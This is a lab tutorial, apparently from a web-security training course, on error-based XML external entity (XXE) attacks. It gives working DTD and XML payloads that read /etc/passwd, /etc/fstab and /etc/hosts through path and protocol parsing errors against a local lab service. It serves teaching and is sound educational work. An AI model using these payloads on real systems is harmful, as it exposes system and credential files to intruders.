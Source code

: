 ```yaml
---
title: "Error Based XXE"
weight: 10
---
```


If we are not able to send data with new line characters, we still may be able to view the contents by exploiting XML parsing errors. In the first exercise we will cause an error by trying to read a non-existent file.

## Path-based XML Parsing Error

The file `/home/vagrant/dtds/path_error.dtd` should contain the following DTD. Notice how we are first grabbing the contents of the passwd file. We will then try to use the contents of that file as the input for a file path.

DTD File for a path-based parsing error:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
Submit the following:

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://localhost:5000/path_error.dtd">
    %ext;
]>
<message></message>
```
Using the error we can see the contents of the file:

![](/static/img/path_error_xxe.png)

## Protocol-based XML Parsing Error

In addition to the non-existent path error used above, we can also use a protocol error to view the content. In this exercise we will trigger the error by not including a protocol: `:%file;`. This dtd file is found here: `/home/vagrant/dtds/protocol_error.dtd`. Instead of the passwd file, lets mix it up and grab the `/etc/fstab` file.

``` xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

Submit the following:

``` xml
<!DOCTYPE data [
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/protocol_error.dtd" >
  %ext;
  %ent;
]>

<data>&data;</data>
```

Unfortunately it did not work, why?

![](/static/img/invalid_argument.png)

Lets see the file:

```plaintext
# <device		mount point	file system type	options
LABEL=cloudimg-rootfs	/	 ext4	defaults	0 0
```

If you guessed that the error is caused because of the `<` in the file. You would be right! To double-check, lets submit the same stuff, but this time we will grab the `/etc/hosts` file. We will use the dtd file found here: `/home/vagrant/dtds/protocol_error2.dtd`.

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

Submit the following:

``` xml
<!DOCTYPE data [
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/protocol_error2.dtd" >
  %ext;
  %ent;
]>

<data>&data;</data>
```

![](/static/img/protocol_error_hosts.png)

This means that the error we received earlier was caused by the content of the file and not anything we did wrong. In the next chapter we will see how to get around this issue.
